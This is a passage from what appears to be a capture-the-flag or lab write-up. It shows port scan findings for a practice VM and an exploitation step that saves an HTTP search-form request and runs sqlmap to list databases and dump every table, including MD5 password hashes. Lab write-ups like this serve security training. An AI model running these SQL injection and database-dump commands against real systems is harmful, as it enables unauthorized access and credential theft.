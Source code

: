 ![writeup.enumeration.steps.3.3](./screenshot03.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp  |  ssh   |  OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.34 ((Ubuntu))
```

\newpage
## Phase #2: Exploitation
1\. The web application presents an online book catalog with a search box. We run `sqlmap` on this page and find the search function vulnerable to SQLi. We dump contents of `webapphacking` database and find MD5 hashed passwords within `users` table. Most of these passwords are easily cracked but we had to use an online MD5 cracker for the password hash of user `superadmin`:  
``` {.python .numberLines}
cat searchform.txt
  POST /welcome.php HTTP/1.1
  Host: 192.168.92.180
  User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://192.168.92.180/welcome.php
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11
  Cookie: PHPSESSID=a9nbe6ikh8ugo269h3rckltqp1
  DNT: 1
  Connection: close
  Upgrade-Insecure-Requests: 1
  
  search=test
sqlmap -r searchform.txt --dbs --batch
sqlmap -r searchform.txt -D webapphacking --dump-all --batch

```

